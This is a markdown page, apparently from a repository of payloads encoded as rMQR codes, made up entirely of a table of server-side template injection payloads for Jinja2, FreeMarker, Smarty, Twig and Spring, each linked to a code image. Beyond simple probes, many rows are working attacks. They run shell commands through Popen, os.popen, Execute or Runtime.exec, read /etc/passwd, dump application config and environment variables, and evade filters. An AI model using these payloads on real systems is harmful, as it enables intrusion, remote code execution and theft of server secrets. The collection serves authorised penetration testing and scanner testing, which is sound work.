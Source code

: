 ## ssti

| Payload | rMQR |
| ----- | ----- |
| `{{2*2}}[[3*3]]` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/1.png) |
| `{{3*3}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/2.png) |
| `{{3*'3'}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/3.png) |
| `<%= 3 * 3 %>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/4.png) |
| `${6*6}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/5.png) |
| `${{3*3}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/6.png) |
| `@(6+5)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/7.png) |
| `#{3*3}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/8.png) |
| `#{ 3 * 3 }` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/9.png) |
| `{{dump(app)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/10.png) |
| `{{config.items()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/12.png) |
| `{{ ''.__class__.__mro__[2].__subclasses__() }}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/15.png) |
| `{{''.__class__.__base__.__subclasses__()}} # Search for Popen process, use payload below change 227 to index of Popen` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/16.png) |
| `{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/17.png) |
| `{% for key, value in config.iteritems() %}<dt>{{ key\|e }}</dt><dd>{{ value\|e }}</dd>{% endfor %}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/18.png) |
| `{{'a'.toUpperCase()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/19.png) |
| `{{ request }}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/20.png) |
| `{{self}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/21.png) |
| `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/23.png) |
| `[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/24.png) |
| `${"freemarker.template.utility.Execute"?new()("id")}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/25.png) |
| `{{app.request.query.filter(0,0,1024,{'options':'system'})}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/26.png) |
| `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/27.png) |
| `{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/28.png) |
| `{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/29.png) |
| `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/30.png) |
| `{$smarty.version}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/31.png) |
| ``{php}echo`id`;{/php}`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/32.png) |
| `{{['id']\|filter('system')}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/33.png) |
| `{{['cat\x20/etc/passwd']\|filter('system')}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/34.png) |
| `{{['cat$IFS/etc/passwd']\|filter('system')}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/35.png) |
| `{{request\|attr([request.args.usc*2,request.args.class,request.args.usc*2]\|join)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/36.png) |
| `{{request\|attr(["*"*2,"class","*"*2]\|join)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/37.png) |
| `{{request\|attr(["__","class","__"]\|join)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/38.png) |
| `{{request\|attr("__class__")}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/39.png) |
| `{{request.__class__}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/40.png) |
| `${T(java.lang.System).getenv()}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/41.png) |
| `${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/ssti/data/42.png) |
